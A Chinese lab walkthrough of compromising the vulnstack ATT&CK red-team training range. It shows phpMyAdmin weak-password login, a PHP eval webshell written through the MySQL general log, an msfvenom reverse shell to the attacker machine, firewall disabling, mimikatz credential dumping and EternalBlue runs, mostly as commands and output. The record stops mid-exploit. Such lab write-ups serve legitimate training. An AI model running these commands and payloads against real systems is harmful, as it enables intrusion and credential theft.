

# ATT&CK红队评估实战靶场(一)

> http://vulnstack.qiyuanxuetang.net/vuln/detail/2/
> 



## 靶场搭建

- 靶机通用密码：`hongrisec@2019`
- `ip`网络设置
    
    创建一个仅主机的虚拟网卡，网段是`192.168.52.0` ，`nat`网卡随意`ip`，用来模拟`web`服务器外网，我这里是`192.168.75.0`网段
    
    内网主机`windows 2003`以及`windows 2008`使用仅主机的虚拟网卡
    
    边缘主机`windows 7`使用仅主机的虚拟网卡以及`nat`网卡
    
    渗透主机`kali`也使用`nat`网卡（`192.168.75.151`）
    
- 测试网络
    
    边缘主机可以`ping`通外网以及域成员，其他两个域成员不能通外网
    
- 在边缘主机`win7` 的`c`盘打开`phpstudy` ，然后将服务启动（假如`phpmystudy`打开报错，就把虚拟机兼容性改为`17.x`）
- 靶场环境搭建完成，开始渗透

## 主机发现端口扫描

1. 使用`nmap`扫描网段类存活主机
    
    因为靶机是我最后添加的，所以靶机IP是`186`
    
    ```php
    nmap -sP 192.168.75.0/24                    
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 22:26 CST
    Nmap scan report for 192.168.75.1
    Host is up (0.00019s latency).
    MAC Address: 00:50:56:C0:00:08 (VMware)
    Nmap scan report for 192.168.75.2
    Host is up (0.00016s latency).
    MAC Address: 00:50:56:FB:CA:45 (VMware)
    Nmap scan report for 192.168.75.186
    Host is up (0.00024s latency).
    MAC Address: 00:0C:29:55:CF:64 (VMware)
    Nmap scan report for 192.168.75.254
    Host is up (0.00024s latency).
    MAC Address: 00:50:56:E8:BD:A6 (VMware)
    Nmap scan report for 192.168.75.151
    ```
    
2. 扫描主机开放端口
    
    ```php
    nmap -sT -min-rate 10000 -p- 192.168.75.186
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 22:26 CST
    Nmap scan report for 192.168.75.186
    Host is up (0.00061s latency).
    Not shown: 65532 filtered tcp ports (no-response)
    PORT     STATE SERVICE
    80/tcp   open  http
    135/tcp  open  msrpc
    3306/tcp open  mysql
    MAC Address: 00:0C:29:55:CF:64 (VMware)
    ```
    
3. 扫描主机服务版本以及系统版本
    
    ```php
    nmap -sV -sT -O -p 80,3306,135 192.168.75.186
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 22:27 CST
    Nmap scan report for 192.168.75.186
    Host is up (0.00042s latency).
    
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
    135/tcp  open  msrpc   Microsoft Windows RPC
    3306/tcp open  mysql   MySQL (unauthorized)
    MAC Address: 00:0C:29:55:CF:64 (VMware)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (96%), Microsoft Windows Embedded Standard 7 (96%), Microsoft Windows 8.1 R1 (94%), Microsoft Windows Server 2008 or 2008 Beta 3 (92%), Microsoft Windows Server 2008 R2 or Windows 8.1 (92%), Microsoft Windows 7 Professional or Windows 8 (92%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (92%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (92%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 SP1 (89%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 1 hop
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:window
    ```
    
4. 扫描漏洞
    
    ```python
    nmap -script=vuln -p 80,135,3306 192.168.75.186                                                                                                                                                               
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 22:28 CST                                                                                                                                                
    Nmap scan report for 192.168.75.186                                                                                                                                                                               
    Host is up (0.00066s latency).                                                                                                                                                                                    
                                                                                                                                                                                                                      
    PORT     STATE SERVICE                                                                                                                                                                                            
    80/tcp   open  http                                                                                                                                                                                               
    |_http-dombased-xss: Couldn't find any DOM based XSS.                                                                                                                                                             
    | http-sql-injection:                                                                                                                                                                                             
    |   Possible sqli for queries:                                                                                                                                                                                    
    |     http://192.168.75.186:80/l.php?act=phpinfo%27%20OR%20sqlspider                                                                                                                                              
    |     http://192.168.75.186:80/l.php?act=Function%27%20OR%20sqlspider                                                                                                                                             
    |     http://192.168.75.186:80/l.php?act=phpinfo%27%20OR%20sqlspider                                                                                                                                              
    |     http://192.168.75.186:80/l.php?act=Function%27%20OR%20sqlspider                                                                                                                                             
    |     http://192.168.75.186:80/l.php?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000%27%20OR%20sqlspider                                                                                                                 
    |     http://192.168.75.186:80/l.php?=PHPE9568F35-D428-11d2-A769-00AA001ACF42%27%20OR%20sqlspider                                                                                                                 
    |     http://192.168.75.186:80/l.php?=PHPE9568F34-D428-11d2-A769-00AA001ACF42%27%20OR%20sqlspider                                                                                                                 
    |   Possible sqli for forms:                                                                                                                                                                                      
    |     Form at path: /, form's action: /l.php#bottom. Fields that might be vulnerable:                                                                                                                             
    |       host                                                                                                                                                                                                      
    |       port                                                                                                                                                                                                      
    |       login                                                                                                                                                                                                     
    |       funName                                                                                                                                                                                                   
    |     Form at path: /l.php, form's action: /l.php#bottom. Fields that might be vulnerable:                                                                                                                        
    |       host                                                                                                                                                                                                      
    |       port                                                                                                                                                                                                      
    |       login                                                                                                                                                                                                     
    |_      funName                                                                                                                                                                                                   
    | http-slowloris-check:                                                                                                                                                                                                   
    |_http-trace: TRACE is enabled                                     
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.                                         
    | http-phpself-xss:                                 
    |   VULNERABLE:                                     
    |   Unsafe use of $_SERVER["PHP_SELF"] in PHP files                                                      
    |     State: VULNERABLE (Exploitable)               
    |       PHP files are not handling safely the variable $_SERVER["PHP_SELF"] causing Reflected Cross Site Scripting vulnerabilities.
    |                                                   
    |     Extra information:                            
    |                                                   
    |   Vulnerable files with proof of concept:         
    |     http://192.168.75.186/l.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E                            
    |   Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.75.186                         
    |     References:                
    |   Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.75.186                         
    |     References:                                   
    |       https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)                                       
    |_      http://php.net/manual/en/reserved.variables.server.php                                           
    | http-enum:                                        
    |   /phpinfo.php: Possible information file         
    |   /phpmyadmin/: phpMyAdmin                        
    |   /phpMyAdmin/: phpMyAdmin                        
    |_  /PHPMyAdmin/: phpMyAdmin                        
    135/tcp  open  msrpc                                
    3306/tcp open  mysql                                
    MAC Address: 00:0C:29:55:CF:64 (VMware)
    ```
    
    扫描发现`135`端口，因为也是`window`主机，所以可能有用
    
    不过还是从`web`渗透开始，发现可能是`sql`注入的地方，也发现了`phpmyadmin`
    

## web渗透

1. 访问主页
    
    
    
    发现是`phpStudy探针` 能暴露出很多东西
    
    - 主机版本 `Windows 7 Business Edition Service Pack 1`
    - 服务版本 `Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45`
    - 网站的绝对路径 `C:/phpStudy/WWW`
    - `PHP` 已经安装的模块
2. 拉取到最下面有个`MySQL数据库连接检测`
    
    
    
    我们尝试弱口令账户密码都使用`root` ，测试链接成功….
    
3. 不管怎么说，我们先对网站进行目录扫描
    
    ```python
    gobuster dir -u http://192.168.75.186 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,zip,txt | grep -v "403"
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://192.168.75.186
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              php,html,zip,txt
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /l.php                (Status: 200) [Size: 14735]
    /L.php                (Status: 200) [Size: 14735]
    /phpmyadmin           (Status: 301) [Size: 241] [--> http://192.168.75.186/phpmyadmin/]
    /phpinfo.php          (Status: 200) [Size: 71329]
    /phpMyAdmin           (Status: 301) [Size: 241] [--> http://192.168.75.186/phpMyAdmin/]
    Progress: 1102800 / 1102805 (100.00%)
    ===============================================================
    Finished
    ===============================================================
    ```
    
    没找到什么
    
4. 前面知道数据库账号密码都是`root`，所以直接登录`phpmyadmin`
    
    
    
    登陆成功
    
5. 尝试利用`phpmyadmin`后台`getshell`
    - 尝试使用`outfile`等方法，因为我们知道了网站的绝对路径
        
        首先查看`secure_file_priv`权限
        
        ```python
        SHOW GLOBAL VARIABLES LIKE '%secure%'
        //
        secure_file_priv 	NULL
        ```
        
        `NULL`就无法利用了
        
    - 使用日志文件写入`shell`
        1. 首先查看全局日志文件是否开启
            
            ```python
            SHOW VARIABLES LIKE '%general%'
            //
            general_log 	OFF
            general_log_file 	C:\phpStudy\MySQL\data\stu1.log
            ```
            
        2. 我们两个参数都要进行设置，将`general_log` 设置为`ON` ，将`general_log_file` 设置在网站目录里面的文件
            
            ```python
            set global general_log = "ON";
            set global general_log_file='C:/phpStudy/WWW/test.php';
            ```
            
        3. 设置完后再检查参数是否设置成功
            
            ```python
            general_log 	ON
            general_log_file 	C:/phpStudy/WWW/test.php
            ```
            
        4. 设置成功，然后我们在执行栏输入恶意语句
            
            ```python
            select "<?php eval($_POST[1]); ?>";
            ```
            
        5. 执行完后，会被写入到日志文件里（`C:/phpStudy/WWW/test.php`），就是已经将一句话木马写入了`test.php`
            
            
            
6. 使用蚁🗡连接
    
    
    
    连接成功，相当于`getshell`了已经
    
7. 在蚁🗡查看当前目录
    
    
    
    - 存在`beifen.rar` ，我们将它拉取下来查看
        
        解压出来是`yxcms`的源码，表示存在`yxcms`
        
    - 还存在`yxcms` 目录，就是使用上面压缩包的源码搭建的
8. 浏览器访问`yxcms` 
    
    
    
    果然是搭建了，但是我们已经能连接了，就没必要干这里了
    

## 获得shell

1. 上面蚁🗡已经连接了，到这步就是要获得`shell`了
2. `kali`制作反弹`shell`马，指定`-e x86/shikata_ga_nai` 是因为靶机上可能存在杀软
    
    ```python
    msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.75.151 LPORT=1234 -e x86/shikata_ga_nai -f exe -o shell.exe
    ```
    
3. 通过蚁🗡上传马到靶机上
4. `kali`开启监听
    
    ```python
    msf6 exploit(multi/handler) > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
    msf6 exploit(multi/handler) > set lhost 192.168.75.151
    msf6 exploit(multi/handler) > set lport 1234
    msf6 exploit(multi/handler) > run
    ```
    
5. 通过蚁🗡启动马
    
    ```python
    C:\phpStudy\WWW> shell.exe
    ```
    
    ```python
    [*] Started reverse TCP handler on 192.168.75.151:1234 
    [*] Meterpreter session 5 opened (192.168.75.151:1234 -> 192.168.75.186:2114) at 2024-11-13 00:22:32 +0800
    
    meterpreter > 
    ```
    
    获得`shell` ，上线`MSF`
    

## 内网信息收集

1. 查看当前靶机IP
    
    ```python
    meterpreter > ipconfig                                                                                                                                                                                                                                                                                                                                                                                                          
    Interface 11                                                                                                                                                                                                      
    ============                                                                                                                                                                                                      
    Name         : Intel(R) PRO/1000 MT Network Connection                                                                                                                                                            
    Hardware MAC : 00:0c:29:55:cf:5a                                                                                                                                                                                  
    MTU          : 1500                                                                                                                                                                                               
    IPv4 Address : 192.168.52.143                                                                                                                                                                                     
    IPv4 Netmask : 255.255.255.0                                                                                                                                                                                      
    IPv6 Address : fe80::69c6:31ff:4e4e:e80b            
    IPv6 Netmask : ffff:ffff:ffff:ffff:: 
    Interface 26
    ============
    Name         : Intel(R) PRO/1000 MT Network Connection #3
    Hardware MAC : 00:0c:29:55:cf:64
    MTU          : 1500
    IPv4 Address : 192.168.75.186
    IPv4 Netmask : 255.255.255.0
    IPv6 Address : fe80::407d:48b5:70cc:cce6
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    ```
    
    可以查看到存在两张网卡，内网地址是`192.168.52.143`
    
2. 当前主机系统信息等
    
    ```python
    meterpreter > sysinfo
    Computer        : STU1
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : zh_CN
    Domain          : GOD
    Logged On Users : 2
    Meterpreter     : x86/windows
    ```
    
    存在域`GOD`
    
3. 发现主DNS后缀不为空，存在域`god.org`
    
    ```python
    C:\phpStudy\WWW>net config workstation
    net config workstation
    Computer name                        \\STU1
    Full Computer name                   stu1.god.org
    User name                            Administrator
    
    Workstation active on                
            NetBT_Tcpip_{4DAEBDFD-0177-4691-8243-B73297E2F0FF} (000C2955CF5A)
            NetBT_Tcpip_{43B076D2-BB12-42E8-AF64-3CFB49A31501} (000C2955CF64)
            NetBT_Tcpip_{EC57C4EB-763E-4000-9CDE-4D7FF15DF74C} (02004C4F4F50)
    
    Software version                     Windows 7 Professional
    
    Workstation domain                   GOD
    Workstation Domain DNS Name          god.org
    Logon domain                         GOD
    
    COM Open Timeout (sec)               0
    COM Send Count (byte)                16
    COM Send Timeout (msec)              250
    The command completed successfully.
    ```
    
4. 寻找是否存在别的域
    
    ```python
    C:\phpStudy\WWW>net view /domain
    net view /domain
    Domain
    
    -------------------------------------------------------------------------------
    GOD                  
    The command completed successfully.
    ```
    
    仅存在一个域
    
5. 只有一个域我们就查看域控制器的主机名，方便我们去确定那台是域控`DC`
    
    ```python
    C:\phpStudy\WWW>net group "domain controllers" /domain
    The request will be processed at a domain controller for domain god.org.
    
    Group name     Domain Controllers
    Comment        
    
    Members
    
    -------------------------------------------------------------------------------
    OWA$                     
    The command completed successfully.
    ```
    
    确定域控制器主机名为`OWA`
    
6. 查看域内主机其他主机信息
    
    ```python
    C:\phpStudy\WWW>net view
    net view
    Server Name            Remark
    
    -------------------------------------------------------------------------------
    \\OWA                                                                          
    \\ROOT-TVI862UBEH                                                              
    The command completed successfully.
    ```
    
    域控 `OWA`，域成员`ROOT-TVI862UBEH` 
    
    然后通过`ping`命令获取`IP`
    
    ```python
    C:\phpStudy\WWW>ping owa
    Pinging owa.god.org [192.168.52.138] with 32 bytes of data:
    C:\phpStudy\WWW>ping ROOT-TVI862UBEH
    Pinging ROOT-TVI862UBEH.god.org [192.168.52.141] with 32 bytes of data:
    ```
    
    域控`OWA 192.168.52.138`；域成员`ROOT-TVI862UBEH 192.168.52.141` 接下来的目的就是横向拿下域控
    
7. 查看域内用户，有五个用户
    
    ```python
    C:\phpStudy\WWW>net user /domain
    net user /domain
    The request will be processed at a domain controller for domain god.org.
    
    User accounts for \\owa.god.org
    
    -------------------------------------------------------------------------------
    Administrator            Guest                    krbtgt                   
    ligang                   liukaifeng01             
    The command completed successfully.
    ```
    
8. 查看哪个是管理员用户，`Administrator` 就是域管理员
    
    ```python
    C:\phpStudy\WWW>net group "domain admins" /domain
    net group "domain admins" /domain
    The request will be processed at a domain controller for domain god.org.
    
    Group name     Domain Admins
    Comment        
    
    Members
    
    -------------------------------------------------------------------------------
    Administrator            OWA$                     
    The command completed successfully.
    
    C:\phpStudy\WWW>
    ```
    

## 获得靶机远程桌面

### 开启靶机RPD

1. 靶机默认没有开启`3389`端口，同时还有防火墙
2. 首先关闭防火墙
    
    ```python
    #关闭防火墙
    netsh firewall set opmode disable #winsows server 2003 之前
    netsh advfirewall set allprofiles state off #winsows server 2003 之后
    ```
    
3. 通过MSF启动RDP服务
    
    ```python
    meterpreter > run post/windows/manage/enable_rdp
    
    [*] Enabling Remote Desktop
    [*]     RDP is disabled; enabling it ...
    [*] Setting Terminal Services service startup mode
    [*]     The Terminal Services service is not set to auto, changing it to auto ...
    [*]     Opening port in local firewall if necessary
    [*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20241113014044_default_192.168.75.186_host.windows.cle_649955.txt
    ```
    

### 破解密码

1. 开启RDP服务后我们还需要密码才能登陆
2. 查看当前用户
    
    ```python
    meterpreter > getuid
    Server username: GOD\Administrator
    ```
    
    域管理员用户
    
3. 在MSF使用`getsystem` 获得权限
    
    ```python
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    ```
    
    变成`NT AUTHORITY\SYSTEM` 这是本地用户，是系统最高权限，因为我们需要破解密码
    
4. 使用MSF里的`mimikatz`模块
    
    `mimikatz`模块的使用需要`Administrator`权限或者`System`权限，这就我们为什么需要`getsystem`
    
    - 加载`mimikatz` 模块
        
        ```python
        meterpreter > load mimikatz
        [!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
        Loading extension kiwi...
          .#####.   mimikatz 2.2.0 20191125 (x86/windows)
         .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
         ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
         ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
         '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
          '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
        
        [!] Loaded x86 Kiwi on an x64 architecture.
        
        Success.
        ```
        
    - 运行`creds_all` 命令
        
        ```python
        meterpreter > creds_all                                                                                                                                                                                           
        [+] Running as SYSTEM                                                                                                                                                                                             
        [*] Retrieving all credentials                                                                                                                                                                                    
        ..... 省略
        Administrator  GOD.ORG      hongrisec@2019
        ignoredjunk    ignoredjunk  ignoredjunk
        stu1$          GOD.ORG      d2 64 a0 33 a9 09 93 25 30 cb 06 36 c9 74 fc 59 3e 4f 49 9a fc 20 0a c3 f1 01 af 69 df 54 f4 70 c0 fa 3e 13 95 11 93 9c 76 39 3c c1 ad f0 a3 4e 78 61 b8 08 01 2d 42 c0 82 56 66 23
                                    2e d1 07 da fd 12 b7 f6 67 8d 40 4a d2 7f 47 7c a5 b3 e5 7c 5d a0 0b 77 45 c1 92 88 38 de 6f 93 da b4 d1 c1 ec 20 da f7 98 ac a8 05 30 71 85 68 0b 39 de c4 42 db 21 4a 83 ee ed ea
                                    9f 48 e0 59 1a 95 f2 e7 c2 d7 89 9e 06 ca 05 a0 4e 25 a4 06 07 d4 cd 27 db 8d b1 bd c0 78 39 72 79 37 a0 75 98 ab 8f 1a 11 ce 56 dd 90 06 97 8e 01 df 52 f4 bc 8c b3 ae c9 c2 15 bb
                                    96 fb 62 df 7a 48 63 24 dc fb 4c 3c 6d fd 35 18 b0 82 4a ec a5 ee d1 de 46 77 2d 07 20 31 79 69 d3 5c fa 62 46 62 50 3b 09 d0 d6 94 b9 d2 99 58 4b a5 21 5c 03 5b 01 fa 95 ca 90 8d
        ```
        
        得到密码`hongrisec@2019` ，也就是域管理员的密码
        

### 连接靶机RDP

1. 账户`god\administrator` ,密码使用`hongrisec@2019` 
    
    
    
    连接成功，那么我们就拿下了边缘主机`win7`的远程桌面了
    
2. 我们尝试下通过网络访问域控主机，假如`administrator`是管理员账户就可以正常访问
    
    
    
    果然鹤猜想的一样，可以正常访问
    

## 内网渗透

### 继续内网信息收集，使用MSF的脚本

- 查看靶机是否是虚拟机，是否处于蜜罐中
    
    ```python
    meterpreter > run post/windows/gather/checkvm 
    
    [*] Checking if the target is a Virtual Machine ...
    [+] This is a VMware Virtual Machine
    ```
    
    因为我们现在是靶场环境，所以我们是出于虚拟机状态的
    
- 查用用户信息，将密码离散值也弄出来了。密码离散值通过`hashdump`也可以获取
    
    ```python
    meterpreter > run post/windows/gather/credentials/credential_collector 
    
    [*] Running module against STU1
    [+] Collecting hashes...
        Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
        Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
        Extracted: liukaifeng01:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    [+] Collecting tokens...
        GOD\Administrator
        NT AUTHORITY\SYSTEM
        No tokens available
    ```
    
- 查看补丁信息
    
    ```python
    meterpreter > run post/windows/gather/enum_patches 
    [*] Running module against STU1 (192.168.75.186)
    Installed Patches
    =================
      HotFix ID  Install Date
      ---------  ------------
      KB2534111  8/25/2019
      KB2999226  9/15/2019
      KB958488   8/29/2019
      KB976902   11/21/2010
    ```
    
- 枚举靶机上安装的应用程序
    
    ```python
    meterpreter > run post/windows/gather/enum_applications 
    [*] Enumerating applications installed on STU1
    Installed Applications
    ======================
     Name                                                            Version
     ----                                                            -------
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148  9.0.30729.4148
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148  9.0.30729.4148
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161  9.0.30729.6161
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161  9.0.30729.6161
     Microsoft Visual C++ 2013 Redistributable (x86) - 12.0.21005    12.0.21005.1
     Microsoft Visual C++ 2013 Redistributable (x86) - 12.0.21005    12.0.21005.1
     Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005   12.0.21005
     Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005   12.0.21005
     Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005      12.0.21005
     Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005      12.0.21005
     Microsoft Visual C++ 2017 Redistributable (x86) - 14.16.27033   14.16.27033.0
     Microsoft Visual C++ 2017 Redistributable (x86) - 14.16.27033   14.16.27033.0
     Microsoft Visual C++ 2017 X86 Additional Runtime - 14.16.27033  14.16.27033
     Microsoft Visual C++ 2017 X86 Additional Runtime - 14.16.27033  14.16.27033
     Microsoft Visual C++ 2017 X86 Minimum Runtime - 14.16.27033     14.16.27033
     Microsoft Visual C++ 2017 X86 Minimum Runtime - 14.16.27033     14.16.27033
     Mozilla Firefox 69.0.1 (x86 zh-CN)                              69.0.1
     Mozilla Firefox 69.0.1 (x86 zh-CN)                              69.0.1
     Nmap 7.80                                                       7.80
     Nmap 7.80                                                       7.80
     Notepad++ (32-bit x86)                                          7.7.1
     Notepad++ (32-bit x86)                                          7.7.1
     Npcap 0.9983                                                    0.9983
     Npcap 0.9983                                                    0.9983
     WinPcap 4.1.3                                                   4.1.0.2980
     WinPcap 4.1.3                                                   4.1.0.2980
     Wireshark 3.0.4 32-bit                                          3.0.4
     Wireshark 3.0.4 32-bit                                          3.0.4
    ```
    

### 内网端口扫描

1. 把`win7`当跳板，则需要添加路由
    
    ```python
    #添加一条路由
    run autoroute -s 192.168.52.0/24  # 在kali上添加一条通向内网的路由
    #查看路由添加情况
    run autoroute -p
    ```
    
2. 然后将当前会话放入后台，存为`session 1` ，后面可以通过`sessions`命令指定`1`回到当前会话
    
    ```python
    meterpreter > background
    [*] Backgrounding session 1... 
    ```
    
3. 使用辅助模块里边的端口扫描，来扫描域里边的两台主机
    - 首先扫描域成员的端口
        
        ```python
        msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 
        msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.52.141
        msf6 auxiliary(scanner/portscan/tcp) > set ports 1-500,3389,3306
        msf6 auxiliary(scanner/portscan/tcp) > run
        [+] 192.168.52.141:       - 192.168.52.141:21 - TCP OPEN
        [+] 192.168.52.141:       - 192.168.52.141:135 - TCP OPEN
        [+] 192.168.52.141:       - 192.168.52.141:139 - TCP OPEN
        [+] 192.168.52.141:       - 192.168.52.141:445 - TCP OPEN
        [*] 192.168.52.141:       - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
        ```
        
        开启了`21`，`135`，`139`，`445`
        
    - 扫描域控
        
        ```python
        msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.52.138
        [+] 192.168.52.138:       - 192.168.52.138:135 - TCP OPEN
        [+] 192.168.52.138:       - 192.168.52.138:80 - TCP OPEN
        [+] 192.168.52.138:       - 192.168.52.138:445 - TCP OPEN
        [+] 192.168.52.138:       - 192.168.52.138:139 - TCP OPEN
        [*] 192.168.52.138:       - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
        ```
        
        存在 `80`，`136`，`139`，`445` 
        
    - 竟然还存在`80`端口，我们可以通过之前获得的`RDP` 在`win7`里面访问，是默认页面
        
        
        

### 尝试永恒之蓝

1. 两台机子都存在`445`端口，永恒之蓝漏洞肯定是要尝试的
2. 首先使用探测模块探测是否存在永恒之蓝`ms17-010`
    
    ```python
    msf6 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/smb/smb_ms17_010 
    msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhost 192.168.52.141
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run
    [+] 192.168.52.141:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 x86 (32-bit)
    [*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    
    ```python
    msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhost 192.168.52.138
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run
    [+] 192.168.52.138:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
    [*] 192.168.52.138:445    - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    
    都是可能存在，不管如何都试试
    
3. 使用永恒之蓝攻击靶机
    
    ps：payload需要指定为正向连接，因为是在内网环境，靶机没有通向攻击机的路由
    
    ```python
    msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tc
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.52.138
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
    [*] 192.168.52.138:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 192.168.52.138:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)
    [*] 192.168.52.138:445    - Scanned 1 of 1 hosts (100% complete)
    [+] 192.168.52.138:445 - The target is vulnerable.
    [*] 192.168.52.138:445 - Connecting to target for exploitation.
    [-] 192.168.52.138:445 - SMB Negotiation Failure -- this often occurs when lsass crashes.  The target may reboot in 60 seconds.
    [*] Started bind TCP handler against 192.168.52.138:4444
    [*] Exploit completed, but no session was created.
    ```
    
    失败，域控没有拿到shell
    
    ```python
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.52.141
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
    [*] 192.168.52.141:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 192.168.52.141:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 x86 (32-bit)
    [*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
    [+] 192.168.52.141:445 - The target is vulnerable.
    [-] 192.168.52.141:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
    [*] Exploit completed, but no session was created.
    ```
    
    提示该模块仅支持`x64`，但是靶机是`x32`的，换了`ms17_010_psexec` ，但是shell死活连不上
    
    ```python
    msf6 exploit(windows/smb/ms17_010_psexec) > run
    
    [*] 192.168.52.141:445 - Target OS: Windows Server 2003 3790
    [*] 192.168.52.141:445 - Filling barrel with fish... done
    [*] 192.168.52.141:445 - <---------------- | Entering Danger Zone | ---------------->
    [*] 192.168.52.141:445 -        [*] Preparing dynamite...
    [*] 192.168.52.141:445 -                Trying stick 1 (x64)...Miss
    [*] 192.168.52.141:445 -                [*] Trying stick 2 (x86)...Boom!
    [*] 192.168.52.141:445 -        [+] Successfully Leaked Transaction!
    [*] 192.168.52.141:445 -        [+] Successfully caught Fish-in-a-barrel
    [*] 192.168.52.141:445 - <---------------- | Leaving Danger Zone | ---------------->
    [*] 192.168.52.141:445 - Reading from CONNECTION struct at: 0x8d666d60
    [*] 192.168.52.141:445 - Built a write-what-where primitive...
    [+] 192.168.52.141:445 - Overwrite complete... SYSTEM session obtained!
    [*] 192.168.52.141:445 - Selecting native target
